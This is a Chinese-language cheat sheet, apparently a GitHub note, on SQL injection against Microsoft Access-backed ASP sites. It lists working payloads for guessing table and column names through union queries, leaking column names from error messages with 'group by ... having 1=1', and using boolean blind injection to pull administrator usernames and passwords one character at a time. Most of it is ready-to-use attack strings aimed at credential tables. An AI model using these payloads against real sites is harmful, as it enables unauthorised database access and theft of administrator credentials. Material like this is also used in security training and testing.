 * **猜表名**
  * 使用union select 1，2，3......，n-1 from 表名（一般使用字典，爆破出管理员数据表名），当页面显示，则存在该表名**输出页面中会有数字输出，表示该列数据类型为字符串**
  * 在提交注入查询语句后，如果获得的HTML返回和正常页面一样，则表存在。
  ```sql
  ' AND (SELECT TOP 1 1 FROM TableNameToBruteforce[i])
  
  AND exists(select * from tablename)
  ```
* **猜列名**
  * 普通查询语句
  ```sql
  union select name，2，3，.....，password from admin（输出admin表中的name和password）
  ```
  
  * 如果站点SQL查询语句为 select id,name,address from 表名
  ```sql
  ?id=25 group by 1 having 1=1(数字型)                 如果字符型就 'group by 1 having '1'='1'
  ```
  此时会有报错信息，信息中显示了第一个列名    Microsoft JET Database Engine (0x80040E21) 
  试图执行的查询中不包含作为合计函数一部分的特定表达式 'id' 。
  ```sql
  爆出id字段，继续，productshow.asp?id=25 group by 1,id having 1=1
  返回错误：
  Microsoft JET Database Engine (0x80040E21) 
  试图执行的查询中不包含作为合计函数一部分的特定表达式 'email' 。
  ```
  ```sql
  依次类推productshow.asp?id=25 group by 1,id,email having 1=1，可以爆出目标表中的所有字段。
  ```
  
### 【bool盲注】

* **使用条件**
  使用and 1=1，页面返回正常，输入and 2=1时，页面返回错误，存在bool盲注
  
* **猜表名**
  * 判断所要查的表名是否存在，and exists（select * from 表名），使用字典跑，页面输出正常则，猜中表名，举例表名为admin

* **猜列名**
  * 判断列名是否存在，and exists （select 列名 from admin），使用字典跑，页面输出正常则，猜中列名，举例列名为user

* **猜内容**
  * and （select top 1 asc（mid（user，1，1））from admin）>100  将user列中第一个行数据，从第一个字母开始，向后数一个，截取出来，经过ascii码变成数字，通过大于小于某个数，一个一个判断该数据是什么（当联合查询不起作用时使用）

* **确定其他表的字段数**
  * 确定目标表的字段数量
  * ?id=1513 and exists(select * from admin order by 6)
  页面返回正常，说明admin有6个字段
  
### 【Access逐字猜解法】

* **判断账户密码的长度**
  * and (select len(admin) from admin)=5  如果返回正常说明管理员账户的长度为5
  * and (select len(password) from admin)=5  猜解管理密码长度是否为5
